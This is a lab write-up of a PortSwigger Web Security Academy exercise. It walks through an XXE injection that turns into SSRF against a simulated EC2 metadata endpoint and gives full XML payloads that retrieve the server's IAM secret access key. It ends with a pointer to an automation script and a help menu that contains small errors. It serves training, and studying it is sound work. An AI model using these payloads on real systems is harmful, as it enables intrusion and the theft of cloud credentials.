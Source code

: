 \+ Lab #2    : Exploiting XXE to perform SSRF attacks\
\+ Lab Level : Apprentice\
\+ Link      : https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf

## About:
This lab has a ```Check stock``` feature that parses XML input and returns any unexpected values in the response.<br/>
The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is http://169.254.169.254/. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.<br/>
To solve the lab, exploit the [XXE vulnerability](https://portswigger.net/web-security/xxe) to perform an [SSRF attack](https://portswigger.net/web-security/ssrf) that obtains the server's IAM secret access key from the EC2 metadata endpoint. 

## End Goal:
Retrieve the server's IAM secret access key from the EC2 metadata endpoint. 

## Detection:
* First of all, we need to find an XML data entry point where we can test for XXE vulnerability.
* According to the lab description, the target Web Application has a check stock feature that parses XML input.
  ![XXE](https://user-images.githubusercontent.com/101610095/221443861-16357268-24f6-40be-9eba-cf94b6c412a8.png)
* Let's visit the ```/product``` page and intercept the POST request after clicking on the ```check stock``` button:
  ![XXE2](https://user-images.githubusercontent.com/101610095/221443309-560773a8-e280-438b-b7e9-162d23f0d046.png)
* As you can see here, after clicking on the check stock button, a client-side script issues a POST request to the server, and then the server respond with the following response:<br/> 
  ![XXE3](https://user-images.githubusercontent.com/101610095/221443796-aa626e12-d1df-4bc4-80a2-b2d2d82e0e89.png)
* The client-side script will then process the server's response and update part of the user interface by displaying the number of products left.<br/>
  ![XXE1](https://user-images.githubusercontent.com/101610095/221443008-d18e6537-9e12-4868-9742-a4f126fd598b.png)

## Exploitation:
### Manual:
#### Crafting the payload:
* In order to solve the lab, we need to perform a ```Server-Side Request Forgery (SSRF)``` to query and get EC2 instance metadata, which are located by default at ```/latest/meta-data/<metadata-path>```
> 📝: **NOTE:** <br/>
> For more information about EC2 metadata, refer to: https://towardsthecloud.com/amazon-ec2-instance-metadata
* In this lab, we need to extract the server's IAM secret access key, which means, we will replace ```<metadata-path>``` with ```iam```
* The malicious external entity should look to something like this:
```XML
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam"> ]>
```
* Now, all we need to do is to inject this external entity in between the ```XML Prolog``` and the root element ```<stockCheck>``` and replace the *productId* number with a reference to our malicious external entity ```&xxe;``` just like we did in the previous lab :
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam"> ]>
<stockCheck>
  <productId>
    &xxe;
  </productId>
  <storeId>
    1
  </storeId>
</stockCheck>
```
* Let's send the request:<br/>
  ![request3](https://user-images.githubusercontent.com/101610095/221720253-076cb0dc-091c-4f00-bfce-27f1c22ee7f4.png)
* Server's Response:<br/>
  ![response3](https://user-images.githubusercontent.com/101610095/221720300-fd110559-5019-451d-b854-58d2b7efebb7.png)
* As you can see, we got in the response a folder called ```security-credentials``` which will most likely contain the server's IAM secret access key.
* Let's update our payload and send the request: 
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials"> ]>
<stockCheck>
  <productId>
    &xxe;
  </productId>
  <storeId>
    1
  </storeId>
</stockCheck>
```
* Server's response: <br/>
  ![2023-02-28 01_30_27-Burp Suite Community Edition v2023 1 2 - Temporary Project](https://user-images.githubusercontent.com/101610095/221721050-5998738a-b6b8-46fd-9c88-cf30a3a76cba.png)

* The ```security-credentials``` folder contains another folder called ```admin```, which contains the server's IAM secret access key.
* Final Payload: 
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck>
  <productId>
    &xxe;
  </productId>
  <storeId>
    1
  </storeId>
</stockCheck>
```
* Request:<br/>
  ![request4](https://user-images.githubusercontent.com/101610095/221721580-3f9a9d9b-4dd1-433e-817f-2fe32aa7761d.png)
* Response: <br/>
  ![response4](https://user-images.githubusercontent.com/101610095/221721615-074b59a8-dd06-4e05-b2b3-129b7fde724c.png)

### Automated:
* Refer to https://github.com/YounesTasra-R4z3rSw0rd/Web-Security-Academy/blob/main/XXE%20Injection/Lab%232/Lab-2.py
* Requirements:
```bash
pip3 install -m requirements.txt
```
* Help Menu: 
```bash
usage: Lab-1.py [-h] -u URL -f FILE [-n] [-v]

Usage Example: python3 Lab-1.py --url https://0a2100.web-security-academy.net/ --no-proxy

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     Enter the Lab URL
  -f FILE, --file FILE  Enter the path to the file you want to retrieve
  -n, --no-proxy        Do not use proxy
  -v, --verbose         Increase the verbosity level                             
```

